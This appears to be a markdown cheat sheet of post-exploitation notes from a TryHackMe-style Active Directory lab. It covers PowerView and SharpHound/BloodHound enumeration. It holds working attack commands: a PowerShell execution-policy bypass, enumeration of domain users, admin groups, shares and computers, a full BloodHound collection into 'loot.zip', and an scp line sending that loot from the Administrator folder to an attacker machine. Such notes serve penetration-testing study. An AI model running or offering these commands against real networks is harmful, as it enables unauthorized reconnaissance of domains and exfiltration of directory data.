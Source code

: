 # Post Exploitation

## Enumeration w/ Powerview

Bypasses the execution policy of PowerShell allowing you to easily run scripts:

```powershell
powershell -ep bypass
```

Import PowerView.ps1;

Enumerate Domain Users:

```powershell
Get-NetUser | select cn
```

Enumerate Domain Groups:

```powershell
Get-NetGroup -GroupName *admin*
```



Here's a cheatsheet with a lot of PowerView related commands:

[https://gist.github.com/HarmJ0y/184f9822b195c52dd50c379ed3117993](https://gist.github.com/HarmJ0y/184f9822b195c52dd50c379ed3117993)



Find Shares:

```powershell
Invoke-ShareFinder
```

Get AD Computers' Information:

```powershell
Get-NetComputer -FullData
```

```powershell
Get-NetComputer -FullData | select operatingsystem, operatingsystemversion
```

## Enumeration w/ BloodHound

### Getting loot w/ SharpHound

Bypass Execution Policy

```powershell
powershell -ep bypass
```

Import SharpHound;

{% hint style="info" %}
Make sure the SharpHound.ps1 version is new, otherwise there will be problems with BloodHound
{% endhint %}

Getting Loot:

```powershell
Invoke-Bloodhound -CollectionMethod All -Domain CONTROLLER.local -ZipFileName loot.zip
```

Send the loot to your Attacker machine (With SCP):

```powershell
scp C:\Users\Administrator\20241116222926_loot.zip kali@10.11.101.30:/home/kali/thm/postexploit
```

### Mapping the Network w/ BloodHound

Start neo4j:

```bash
sudo neo4j console
```

For first-time usage, you will set a password. After that run bloodhound.

```bash
bloodhound
```

Next, drag and drop the loot.zip file to bloodhound UI.

